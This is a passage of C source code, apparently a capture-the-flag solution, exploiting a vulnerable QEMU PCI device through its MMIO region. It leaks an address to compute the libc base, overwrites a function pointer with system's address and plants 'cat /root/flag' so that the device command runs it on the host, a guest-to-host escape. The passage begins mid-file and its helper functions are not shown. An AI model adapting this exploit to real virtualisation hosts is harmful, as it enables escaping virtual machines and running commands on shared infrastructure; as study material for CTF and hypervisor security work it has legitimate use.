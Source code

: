 ```c

    sleep(1);
}

void enc(){
	write_src(0x40100);
	write_cnt(0);
	write_cmd(7);
}

int main(){

	int mmio_fd = open("/sys/devices/pci0000:00/0000:00:04.0/resource0", O_RDWR | O_SYNC);
    if (mmio_fd == -1){
        perror("open mmio");
        exit(-1);
    }

    mmio_mem = mmap(0, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED, mmio_fd, 0);
    if (mmio_mem == MAP_FAILED){
    	perror("mmap mmio");
        exit(-1);
    }

    printf("mmio_mem:\t%p\n", mmio_mem);

    userbuf = mmap(0, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED | MAP_ANONYMOUS, -1, 0);
    if (userbuf == MAP_FAILED){
    	perror("mmap userbuf");
        exit(-1);
    }

    mlock(userbuf, 0x1000);
    userbuf_pa = va2pa(userbuf);

    printf("userbuf_va:\t%p\n",userbuf);
    printf("userbuf_pa:\t%p\n",(void *)userbuf_pa);

    read_enc_addr();

    uint64_t leak_enc=*(uint64_t*)userbuf;
    printf("enc_addr:\t%p\n",(void*)leak_enc);

    uint64_t libc_base = leak_enc - 0x283dd0;
    printf("libc_base:\t%p\n",(void*)libc_base);

    uint64_t system_addr = libc_base + 0x1FDB18;
    printf("system_addr:\t%p\n",(void*)system_addr);

    write_system_addr(&system_addr,8);

    char *cat_flag = "cat /root/flag\x00";
    write_cat_addr(cat_flag,strlen(cat_flag));
    enc();
}
```


